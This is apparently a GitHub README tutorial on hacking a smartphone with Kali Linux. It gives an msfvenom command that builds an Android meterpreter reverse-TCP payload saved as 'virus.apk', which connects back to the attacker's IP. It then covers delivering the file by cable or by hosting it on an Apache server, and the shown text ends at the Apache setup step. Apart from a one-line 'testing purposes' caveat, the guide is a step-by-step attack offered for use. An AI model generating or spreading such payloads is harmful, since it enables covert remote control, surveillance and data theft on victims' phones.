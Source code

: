 # How to hack a smarphone with Kali Linux (complete guide)
Kali linux is an OS that is focused on pentesting and ethical hacking. It if totally free and open source. In this guide you will see how you can test to gain acces to a phone with some pentesting tools. ONLY USE THIS FOR TESTING PURPOSES. 

**More info at https://www.kali.org/**

## Creating the maliciuos file
The first thing that we need to make, is to create a malicious file with the correct parameters as for making a connection between our computer and the affected device.
#### `msfvenom -p android/meterpreter/reverse_tcp LHOST=(ENTER YOUR IP ADRESS WITHOUT THE BRACKETS) LPORT=8080  R> virus.apk`

## Two options to proceed
1) Making the virus aviable online.
2) Infecting the virus via cable.


## Option 1)Uploading the file to an apache server.
This method consists in unploading the file to a server that is hosted by the linux machine. You can make shure if it is running by entering this command.
#### `sudo service apache2 status`
**If you see as an output that it is offline, then turn it on with the following command**
#### `sudo service apache2 start`


